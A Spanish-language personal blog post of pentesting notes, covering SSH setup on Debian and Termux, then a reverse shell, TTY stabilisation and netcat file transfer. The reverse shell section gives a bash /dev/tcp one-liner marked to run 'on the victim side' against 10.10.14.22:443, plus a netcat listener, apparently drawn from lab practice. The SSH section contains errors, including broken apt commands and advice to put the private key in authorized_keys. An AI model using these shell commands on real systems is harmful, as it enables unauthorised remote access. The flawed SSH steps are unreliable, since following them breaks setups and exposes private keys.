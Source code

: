 ```yaml
---
layout: post
author: Sergio Salgado
---
```


# [](#header-1)Como establecer una conexion remota SSH?

## [](#header-2)Indice
- <a href="#introduccion">Introduccion</a>
- <a href="#about_ssh">Que es SSH?</a>
- <a href="#instalacion">Instalacion</a>
- <a href="#configuracion">Configuracion</a>
- <a href="#conexion">Establecer conexion</a>
- <a href="#conclusiones">Conclusiones</a>

## [](#header-2)<a id="introduccion">Introduccion</a>
Es incomodo utilizar la terminal desde algunos dispositivos, o simplemente la interfaz no es como a la que estamos acostumbrados. En este post mostrare como configurar correctamente el servicio de SSH para poder establecer una conexion remota desde otro dispositivo.


## [](#header-2)<a id="about_ssh">Que es SSH?</a>


## [](#header-2)<a id="about_ssh">Instalacion</a>


Para dispositivos con sistema operativo basado en debian


```S
#Actualizacion de sistema
sudo apt update && upgrade
#Instalacion de openssh
apt install openssh
#Para loggearte en una maquina con ssh en ejecusion donde el puerto por default es (22):
ssh user@hostname_or_ip
```


Para dispositivos <a id="andorid">android</a>


```S
pkg upgrade
pkg install openssh
```

## [](#header-2)<a id="about_ssh">Configuracion</a>

Por default la contrasena esta establecida, por lo que ingresaremos a verla con
PrintMotd yes
PasswordAuthentication yes
Subsystem sftp /data/data/com.termux/files/usr/libexec/sftp-server

Para establecer una nueva contrasena


```S
$ passwd
New password:
Retype new password:
New password was successfully set.

```

## [](#header-2)<a id="conexion">Establecer conexion</a>
Para saber el usuario de la maquina donde nos conectaremos

```S
$ whoami
```


```S
#Para usar un puerto en especifico
ssh -p 8022 user@hostname_or_ip
```

Tambien es posible crear en la maquina servifor un archivo dentro de /.ssh/ que se llame authorized_keys, jabra que copiarle la llave privada y asignarle el codigo de permisos 600. La llave se copia dentro de algun directorio de la maquina que se conectara con el nombre de id_rsa y se le pasara el siguiente comando:

```s
#Para uso de llave privada y publica
ssh -i id_rsa user@hostname_or_ip
```



## [](#header-2)<a id="conclusiones">Conclusiones</a>
Es necesario utilizar muchos dispositivos para alguien que se dedica a la tecnologia, por lo que lo mas practico seria utilizar solo una maquina para poder comunicarnos entre los dispositivos y poder configurarlos.


# [](#header-1)Como hacer una reverse shell?
El comando siguiente hara una peticion de conexion para la ip y puerto asignado:

 ```bash
 #Para ejecutar del lado de la victima
bash -i >& /dev/tcp/10.10.14.22/443 0>&1
```

Ahora solo hara falta ponerse en escucha con netcat y para que funcione mejor la consola suelo usar tambien el rlwrap 

```s
rlwrap nc -nlvp 443
```

## [](#header-2)<a id="tratamiento tty">Tratamiento para la tty </a>

Para hacer una shell iteractiva:

```s
script /dev/null -c bash
```

Ctrl+Z

```s
stty raw -echo; fg
#ENTER
reset xterm

export TERM=xterm
export SHELL=bash
```

Para las filas

```s
#Consulta de tamano
stty size
45  174
#Para definir
stty rows 45 columns 174
```

# [](#header-1)Envio de datos mediante netcat

```s
#Maquina que envia
nc 10.10.14.22 443 < file_encrypt
#Maquina que recibe
nc -nlvp 4444 > file
```